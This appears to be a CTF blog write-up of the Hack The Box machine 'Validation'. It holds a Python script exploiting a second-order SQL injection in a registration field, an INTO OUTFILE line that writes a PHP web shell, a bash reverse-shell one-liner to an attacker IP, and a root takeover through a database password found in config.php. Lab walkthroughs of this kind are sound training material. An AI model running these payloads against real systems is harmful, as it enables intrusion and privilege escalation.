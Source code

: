 ```yaml
---
layout: single
title: Validation - Hack The Box
excerpt: "Validation is another box HTB made for the UHC competition. It is a qualifier box, meant to be easy and help select the top ten to compete later this month. Once it was done on UHC, HTB makes it available. In this box, I’ll exploit a second-order SQL injection, write a script to automate the enumeration, and identify the SQL user has FILE permissions. I’ll use that to write a webshell, and get execution. For root, it’s simple password reuse from the database. In Beyond Root, I’ll look at how this box started and ended in a container."
date: 2025-07-20
classes: wide
header:
  teaser: /img2/validation.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - SQL (Error Based)
  - SQL > RCE (INTO OUTFILE)
  - Information Leakage
---
```



## Reconnaissance

- Nmap

```bash
❯ nmap -sS --open -p- --min-rate 5000 -n -Pn 10.10.11.116
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-20 15:09 CEST
Nmap scan report for 10.10.11.116
Host is up (0.030s latency).
Not shown: 65189 closed tcp ports (reset), 342 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4566/tcp open  kwtc
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
```

## Exploitation

- SQL Injection (Error Based)

![](/img2/Pasted%20image%2020250720151310.png)

![](/img2/Pasted%20image%2020250720151356.png)

> Vemos que al registrarnos podemos elegir el país del usuario, es probable que en la selección de países haya una query por detrás, por eso podemos probar a corromper la query.

![](/img2/Pasted%20image%2020250720154709.png)

![](/img2/Pasted%20image%2020250720154746.png)

- SQL Injection -> RCE (INTO OUTFILE)

```python
import requests
import signal
import sys
from bs4 import BeautifulSoup

## Control + C


def def_handler(sig,frame):
	print("\n\n[!] Exiting...\n")
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)



def SQLI():

	while True:
		query=input("\n >> ")
		data={'username':'test','country':f"Brazil'union {query}-- -"}
		headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://10.10.11.116", "Connection": "keep-alive", "Referer": "http://10.10.11.116/", "Upgrade-Insecure-Requests": "1", "Priority": "u=0, i"}
		r1=requests.post(url="http://10.10.11.116/",data=data,headers=headers,allow_redirects=False)
		cookie={r1.headers['Set-Cookie'].split('=')[0]:r1.headers['Set-Cookie'].split('=')[-1]}


		r2=requests.get(url="http://10.10.11.116/account.php",cookies=cookie)
		soup=BeautifulSoup(r2.text,"html.parser")

		try:
			li_tags=soup.find("li")

			for i in li_tags:
				print(i)
		except:
			pass


if __name__=='__main__':
	SQLI()
```

```bash
❯ rlwrap python3 sqli.py
```

```ruby

 >> select version()
10.5.11-MariaDB-1

 >> select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
```

![](/img2/Pasted%20image%2020250720211512.png)

- Reverse Shell

```bash
❯ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.6/9000 0>&1" | base64
```

```ruby
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYvOTAwMCAwPiYx
```

![](/img2/Pasted%20image%2020250720211905.png)

```bash
❯ nc -nlvp 9000
```

```ruby
listening on [any] 9000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.116] 57264
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$  
```

## Post-exploitation

- Information Leakage

```bash
www-data@validation:/var/www/html$ cat config.php 
```

```ruby
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

```bash
www-data@validation:/var/www/html$ su root
```

```ruby
Password: 
root@validation:/var/www/html#
```


![](/img2/Pasted%20image%2020250720212305.png)